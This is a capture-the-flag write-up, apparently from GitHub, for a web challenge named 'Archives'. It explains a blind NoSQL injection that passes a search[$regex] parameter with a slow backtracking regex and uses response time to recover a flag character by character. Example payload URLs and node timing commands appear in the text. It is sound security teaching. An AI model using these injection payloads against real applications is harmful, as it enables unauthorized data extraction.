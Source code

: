 # Archives

The famous Jedi Archives. The whole website has just a single text field, and whatever is wrote there it is just passed in to the URL in a GET query: `https://archives.secchallenge.crysys.hu/?search=apple`. There is no 
visible output, we need to reach out to our Jedi mindtricks.

<img width="497" alt="image" src="https://user-images.githubusercontent.com/6275775/231849498-aca5eb41-71a8-4e18-a102-1c25264a991c.png">

Not this time, but it is something similar: blind NOSQL injection. I did my homework and
learned about two things. First, regexps like `/(.+)+D/` can be really slow in JavaScript.

```bash
> time node -e '/(.*)*D/.test("AAAAAAAAAAAAAAAAAAAAAAD")'
node -e '/(.*)*D/.test("AAAAAAAAAAAAAAAAAAAAAAD")'  0.02s user 0.04s system 35% cpu 0.162 total

> time node -e '/(.*)*D/.test("AAAAAAAAAAAAAAAAAAAAAAA")'
node -e '/(.*)*D/.test("AAAAAAAAAAAAAAAAAAAAAAA")'  0.97s user 0.03s system 92% cpu 1.072 total
```

It depends on wether the match succeeds. It's OK if the string ends with a D, but if there is no 
match, the combinatoric explosion slows it down tremendously. In general regexps with `(.*)*` 
in them are considered evil.

Second. Some NOSQL frameworks expect regexp arguments in the URL like this: `https://archives.secchallenge.crysys.hu/?search[$regex]=foobar`

Putting them together we can start looking for the flag character by character. This is slow:

`https://archives.secchallenge.crysys.hu/?search[$regex]=cd23(.*)*QQQQ`

But this is fast:

`https://archives.secchallenge.crysys.hu/?search[$regex]=cd24(.*)*QQQQ`

You get the idea. Whenever the prefix is correct, the query runs slowly, and it's much faster if the prefix 
is wrong. Just what we need. We can write a Python script that finds the flag character by character...

<img width="770" alt="image" src="https://user-images.githubusercontent.com/6275775/231848484-d2147ce1-548e-435e-af68-509a54116ccf.png">
